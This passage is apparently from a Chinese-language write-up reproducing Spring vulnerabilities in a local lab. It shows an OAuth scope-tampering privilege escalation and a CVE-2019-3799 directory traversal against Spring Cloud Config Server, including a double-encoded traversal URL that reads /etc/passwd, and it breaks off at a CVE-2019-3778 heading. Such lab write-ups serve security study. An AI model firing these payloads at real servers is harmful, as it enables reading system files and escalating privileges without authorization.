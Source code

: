 使用了EnableResourceServer并且用了`AuthorizationRequest`的话。那么攻击者可以重新发送一次用过的验证请求，或者进行相应参数修改，从而造成权限提升。

例如劫持code，并且篡改其中的scope到all的话：

```


1.  `http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://127.0.0.1&scope=openid`


```

![image-20200401094048949](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/20200401131712.png)

即授权了读取权限的时候，修改为all就可以获得全部权限。

### [](#CVE-2019-3799-Spring-Cloud-Config-Server-目录遍历 "CVE-2019-3799 Spring Cloud Config Server: 目录遍历")CVE-2019-3799 Spring Cloud Config Server: 目录遍历

影响版本：Spring-Cloud-Config-Server < 2.1.2, 2.0.4, 1.4.6

下载受影响的版本构建：[https://github.com/spring-cloud/spring-cloud-config](https://github.com/spring-cloud/spring-cloud-config)

```


1.  `cd spring-cloud-config-server` 
2.  `../mvnw spring-boot:run`


```

构建成功后访问：

```


1.  `http://127.0.0.1:8888/test/pathtraversal/master/..%252f..%252f..%252f..%252f../etc/passwd` 


```

![image-20200401100511941](Spring 漏洞.assets/image-20200401100511941.png)

其中路径代表：`/{name}/{profile}/{label}/`，如下中所显示的json。

![image-20200401102213915](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/20200401131715.png)

### [](#CVE-2019-3778-Spring-Security-OAuth-开放重定向 "CVE-2019-3778 Spring Security OAuth 开放重定向")CVE-2019-3778 Spring Security OAuth 开放重定向

影响版本：

